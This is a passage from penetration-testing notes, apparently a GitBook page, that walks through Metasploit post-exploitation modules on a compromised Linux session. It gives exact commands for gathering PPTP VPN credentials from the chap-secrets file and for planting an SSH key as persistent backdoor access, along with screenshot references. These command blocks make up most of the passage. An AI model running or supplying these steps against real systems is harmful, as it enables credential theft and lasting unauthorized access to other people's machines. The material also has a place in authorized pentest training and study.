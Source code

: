 ![Metasploit - post/linux/gather/enum_psk](.gitbook/assets/image-20230422152033281.png)

- Check for **PPTP VPN chap-secrets credentials**

```bash
search pptpd_chap_secrets
use post/linux/gather/pptpd_chap_secrets
info
# Description:
#   This module collects PPTP VPN information such as client, server, 
#   password, and IP from your target server's chap-secrets file.
set SESSION 2
run
```

![Metasploit - post/linux/gather/pptpd_chap_secrets](.gitbook/assets/image-20230422152700235.png)

- Perform **SSH Persistence**

```bash
search sshkey
use post/linux/manage/sshkey_persistence
info
# Description:
#   This module will add an SSH key to a specified user (or all), to 
#   allow remote login via SSH at any time.
set SESSION 2
run
```

